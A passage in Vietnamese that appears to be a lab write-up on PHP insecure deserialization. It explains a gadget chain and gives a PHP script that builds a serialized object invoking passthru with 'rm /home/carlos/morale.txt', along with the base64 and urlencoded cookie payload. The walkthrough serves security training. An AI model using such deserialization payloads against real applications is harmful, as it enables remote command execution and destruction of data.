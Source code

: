 Sau đó, ta đến phần khởi tạo của class Product, trong đó đối tượng $this->desc và giá trị $this->default_desc_type được truyền vào như tham số của hàm khởi tạo. Hàm khởi tạo này sẽ gán giá trị của $desc->$default_desc_type cho thuộc tính $this->desc của class Product.

Điều này có nghĩa là khi chúng ta khởi tạo một đối tượng Product, nó sẽ kế thừa giá trị $this->desc và $this->default_desc_type từ đối tượng $this->desc và $this->default_desc_type của class DefaultMap. Và khi chúng ta gọi phương thức \_\_get() của đối tượng $test với tên thuộc tính là biến $cmd, nó sẽ thực thi lệnh shell rm /home/carlos/morale.txt thông qua đối tượng Product

Ở đây ta có thể dùng đoạn code sau: 

```
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;

    public function __construct() {
        $this->desc = new DefaultMap('passthru');
        $this->default_desc_type = 'rm /home/carlos/morale.txt';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }
}

$test = new CustomTemplate();
$ser = serialize($test);
echo($ser . "\n");
echo("===================================================\n");
echo("base64 endcoded then urlencoded: \n");
echo(urlencode(base64_encode($ser)) . "\n");

```
và output của nó sẽ là:

```
O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:8:"passthru";}}
===================================================
base64 encoded then urlencoded: 
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo4OiJwYXNzdGhydSI7fX0%3D

```
Ta truyền base64 urlencoded trên vào cookie và để nó thực hiện:
